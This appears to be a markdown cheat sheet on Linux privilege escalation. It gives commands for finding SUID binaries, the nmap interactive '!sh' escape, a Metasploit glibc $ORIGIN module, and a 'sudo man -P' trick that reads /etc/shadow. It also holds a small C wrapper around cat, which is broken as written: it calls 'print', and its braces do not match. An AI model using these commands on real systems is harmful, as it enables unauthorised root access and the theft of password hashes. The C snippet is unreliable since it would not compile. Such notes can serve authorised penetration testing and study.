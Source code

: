 to find SUID executables: `find / -perm -4000 -type f 2>/dev/null`

- Below program will modcat is wrap around cat and execute commands

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char ** argv) {
    if(argc<2) {
        print("Reads a file. No file name provided.\n");
    }else
        execv("/bin/cat",argv);
        perror("exec");
        }
}
```
`modcat /etc/passwd`

<br>

- `nmap --interactive` and running `!sh`

- glibc '$ORIGIN' expansion Privilege escalation
[ORIGIN library search path](https://enchildfone.wordpress.com/2010/03/23/a-description-of-rpath-origin-ld_library_path-and-portable-linux-binaries/)
`use exploit/linux/local/glibc_origin_expansion_priv_esc`

#### Sudo Privileged access
[SUDO](https://en.wikipedia.org/wiki/Sudo)
`sudo -l`
`/etc/sudoers`
`sudo less /var/log/Xorg.1.log`
![new.png](Pictures/c1.png)

`man -P "id" man`
`sudo man -P "cat /etc/shadow" man`

[Docker](https://en.wikipedia.org/wiki/Docker_(software))
[https://github.com/pyperanger/dockerevil](https://github.com/pyperanger/dockerevil)

#### Restricted shell

[Restricted Shell](https://en.wikipedia.org/wiki/Chroot)
